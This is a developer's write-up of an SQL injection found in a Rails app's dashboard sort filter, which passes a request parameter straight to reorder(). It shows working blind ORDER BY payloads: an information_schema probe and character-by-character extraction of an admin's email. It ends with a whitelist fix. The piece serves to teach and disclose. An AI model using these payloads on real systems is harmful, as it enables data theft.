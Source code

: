 # SQL Injection

This story can be described as "Broke something and was rewarded for it".

During one of my tasks on the project I'm worked on Dashboard improvements.

Dashboard - it's just main page for users with different types of entitites (showed by cards) and filters in sidebar (search by keyword, order, filter by type)

![Untitled.png](injection_files/Untitled.png)

Here the HTML code of `Sort` filter.

```html
<select name="order_filter" id="order_filter" class="form-control custom-select">
  <option value="last_seen desc">Recent First</option>
  <option value="created desc">Date Created ⬇</option>
  <option value="created asc">Date Created ⬆</option>
  <option value="title asc">A-Z</option>
  <option value="title desc">Z-A</option>
</select>
```

Field name for ordering and order in one place with space between.

Put your first thought that came to your mind in the comments 😄

My first thought was "Why `value` looks pretty similar to sql request part?".

I decided to take a deeper look into it and found that we definitely pass it as

```ruby
scope = scope.filter_results(keyword: @keyword, state_filter: @state_filter, order_filter: params[:order_filter])
```

where `filter_results` it's just a concern method which calls `state_filter` and `order_filter` on model if exists

So, in model we just have this:

```ruby
scope :keyword, -> (keyword) { where("title like ?", "%#{keyword}%") }
scope :state_filter, -> (state) { where( state: state ) }
scope :order_filter, -> (order_filter) { reorder(order_filter)} # <- IMPORTANT LINE
```

> **ActiveRecord::QueryMethods#reorder**
Replaces any existing [order](https://apidock.com/rails/ActiveRecord/QueryMethods/order) defined on the relation with the specified [order](https://apidock.com/rails/ActiveRecord/QueryMethods/order).
`User.order('email DESC').reorder('id ASC') # generated SQL has 'ORDER BY id ASC'`

Source: [https://apidock.com/rails/ActiveRecord/QueryMethods/reorder](https://apidock.com/rails/ActiveRecord/QueryMethods/reorder)

Hello! Let's play with it a little. Firstly I decided to test an abitity to pass diffeerent symbols into query and it works well.

I changed one of HTML filter options to different column names and symbols like brackets and it works well. So, we have the hole. Let's put our finger into it.

![Untitled%201.png](/injection_files/Untitled_1.png)

So, how could it help us get some data from table? We able to do some condition and get the result which can be reflected on cards order on dashboard:

![Untitled%202.png](/injection_files/Untitled_2.png)

Do you remember this game from Tarantino's **Inglorious Bastards** film? 

When guys put stickers with name of some person onto theirs foreheads and trying to guess this person name by using only questions with answers "**Yes**" or "**No**".

![Untitled%203.png](/injection_files/Untitled_3.png)

Useful construction for `ORDER` sql injection is a

```sql
(CASE WHEN condition THEN first_coumn_name ELSE second_column_name END)
```

or

```sql
SELECT IF (condition, first_column_name, second_column_name)
```

We just need to find `condition` (as question) and two column names to see the result and put it as `ORDER BY` value (like `Yes` and `No` answers)

What could we put into the `condition` part? Everything. Literally everything.

How about this?

```sql
SELECT IF ((SELECT count(*) FROM information_schema.columns WHERE COLUMN_NAME = 'is_admin' AND table_name = 'users' LIMIT 1)>0, 'YES', 'NO');
```

If we have `is_admin` column in `users` table it should return `YES`

Let's put in into query with column names for sorting:

```sql
(SELECT IF ((SELECT count(*) FROM information_schema.columns WHERE COLUMN_NAME = 'admin' AND table_name = 'users' LIMIT 1)>0, title, created_at))
```

![Screenshot_2021-02-05_at_16.42.45.png](/injection_files/Screenshot.png)

First card is `Fundico` and second is `Area`. There are no `is_admin` column in `users` table. Let's try just `admin` instead:

![Untitled%204.png](/injection_files/Untitled_4.png)

Here we go! Now we know that we have `admin` column in our `users` table.

P.S. The full query with injected code looks like this:

```sql
SELECT `table_1`.* FROM `table_1` WHERE `table_1`.`id` IN 
  (SELECT DISTINCT `table_2`.`deal_id` FROM `table_2` LEFT OUTER JOIN `team_members` 
    ON `team_members`.`cool_dude_id` = `table_2`.`id` 
    WHERE `table_2`.`state` != -1 AND (table_2.user_id=*** or team_members.user_id=***)) 
  ORDER BY (SELECT IF ((SELECT count(*) FROM information_schema.columns 
    WHERE COLUMN_NAME = 'admin' AND table_name = 'users' LIMIT 1)>0, title, created_at))
```

Let's find the rest of the data by analogy. Firstly we need to find `email` of any admin user to get access to the system.

We could do this symbol by symbol using ASCII table:

![Untitled%205.png](/injection_files/Untitled_5.png)

We just need to paste all symbols one by one and look for match

```sql
SELECT IF ((SELECT ASCII(SUBSTRING(email, 1, 1)) FROM users where admin = true LIMIT 1)=105, title, created_at)
```

This query returns true if first ASCII code of symbol in `email` of first `admin` is equals `105` (I.e. first symbol of email is `i`)

Then we go for second symbol using `ASCII(SUBSTRING(email, 2, 1))` and find all symbols one by one.

**Conclusion**: We able to find any information using this hole like credentials of all users, phones, addresses and so on. Always be careful and try not to use strings for searches and filters in Rails.

Rails is well enough protected from vulnerabilities, but nothing can save you from your own mistakes. 

Use wrappers, like hashes and arrays. Don't use `User.where("name = '#{params[:name]'")`

Use `User.where(["name = ?", "#{params[:name]}"])` or `User.where({ name: params[:name] })` instead.

This vulnerablity can be fixed using just one line for example.

```ruby
ORDER_FILTERS = { title_asc: 'title asc', created_at_asc: 'created_at asc'}
scope = scope.filter_results(order_filter: ORDER_FILTERS[params[:order_filter]])
```
